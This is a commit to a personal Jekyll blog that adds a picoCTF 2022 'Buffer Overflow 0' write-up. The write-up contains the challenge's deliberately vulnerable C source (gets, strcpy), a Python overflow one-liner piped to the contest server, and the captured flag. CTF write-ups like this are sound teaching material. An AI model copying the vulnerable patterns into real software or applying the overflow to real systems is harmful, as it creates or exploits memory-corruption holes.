

Before and after one commit to zaneef/zaneef.github.io, a Jekyll site: the page built from tags.html, in a window 1280 px wide. Shown: the top 871 px of the page, without its empty margins (163-1116 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
pico22 - bof0

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -12,7 +12,7 @@ mode: dark # default theme "dark" | "light"
 author:
   name: zan.e # author name
   bio: >- # tell to the world
-    Love breakin' stuffs.
+    ⠇⠕⠇⠀⠺⠁⠎⠞⠑⠙⠀⠽⠕⠥⠗⠀⠞⠊⠍⠑
   username: zan.e # general username
   github: zaneef # github username
   twitter: imflpzne # twitter username
--- /dev/null
+++ b/_posts/2022-08-03-pico-ctf-2022-buffer-overflow-2022.md
@@ -0,0 +1,124 @@
+---
+title: picoCTF 2022 - Buffer Overflow 0
+tags: [pico22, bof, pwn]
+---
+
+Let's gather some information before trying to run the executable
+
+```bash
+$ file vuln
+vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=08fef67fdcc0d93019a26a2f8f97279dee848031, for GNU/Linux 3.2.0, not stripped
+
+$ pwn checksec vuln
+    Arch:     i386-32-little
+    RELRO:    Full RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      PIE enabled
+```
+
+We can see that it's a 32 bit ELF file dinamically linked and not stripped. If we try to run the file it asks for a text file named `flag.txt`. Let's create it and run the file again.
+
+```bash
+$ echo "Buffer Overflow HERE" >> flag.txt
+
+$ ./vuln
+Input: zanef
+The program will exit now
+```
+
+Nothing strange happens. Check the source code
+
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <string.h>
+#include <signal.h>
+
+#define FLAGSIZE_MAX 64
+
+char flag[FLAGSIZE_MAX];
+
+void sigsegv_handler(int sig) {
+  printf("%s\n", flag);
+  fflush(stdout);
+  exit(1);
+}
+
+void vuln(char *input){
+  char buf2[16];
+  strcpy(buf2, input);
+}
+
+int main(int argc, char **argv){
+
+  FILE *f = fopen("flag.txt","r");
+  if (f == NULL) {
+    printf("%s %s", "Please create 'flag.txt' in this directory with your",
+                    "own debugging flag.\n");
+    exit(0);
+  }
+
+  fgets(flag,FLAGSIZE_MAX,f);
+  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
+
+  gid_t gid = getegid();
+  setresgid(gid, gid, gid);
+
+  printf("Input: ");
+  fflush(stdout);
+  char buf1[100];
+  gets(buf1);
+  vuln(buf1);
+  printf("The program will exit now\n");
+  return 0;
+}
+```
+
+There's only one function that should stands out and it's `sigsegv_handler`. This function receives an integer and prints out the flag. We can see that in this line it's passed as an argument to another function named `signal`
+
+```c
+signal(SIGSEGV, sigsegv_handler); // Set up signal handler
+```
+
+With a simple search we can read that `signal` _"sets a function to handle signal i.e. a signal handler with signal numer sig"_ and `SIGSEV` is _"a signal propagated when a program tries to read or write outside the memory it is allocated for it"_. With these two definitions we can deduce that this program, when there's an invalid storage read or write, calls the handler that prints the flag.
+
+Ok, we have to write or read outside the memory boundaries. Check the source code again and we can see that the function `vuln` uses `strcpy` to copy the input string into a buffer. `strcpy` is a buffer overflow vulnerable function so if we pass a string larger than the buffer, `strcpy` will try to write it anyway and will overwrite other memory addresses after the buffer.
+
+```c
+void vuln(char *input){
+  char buf2[16];
+  strcpy(buf2, input);
+}
+```
+
+We can see that in the `main` function it's used `gets` that is another bof vulnerable function.
+
+```c
+char buf1[100];
+  gets(buf1);
+```
+
+Let's exploit `strcpy` giving the program inputs larger than 16 bytes.
+
+```bash
+$ python -c 'print "A" * 16' | ./vuln
+Input: The program will exit now
+
+$ python -c 'print "A" * 20' | ./vuln
+Input: Buffer Overflow HERE
+```
+
+With an input of 20 bytes the program prints out the content of our `flag.txt` file. This means that the program tried to write outside its boundaries and generated a SIGSEV signal. We can confirm our assumption with this command
+
+```bash
+$ sudo dmesg
+segfault at 0 ip 00007fc88e67c375 sp 00007ffec5897fd8 error 4 in libc-2.33.so[7fc88e52e000+158000]
+```
+
+Let's exploit the service and get some points
+
+```bash
+$ python -c 'print "A" * 20' | nc saturn.picoctf.net 65355
+Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
+```
````
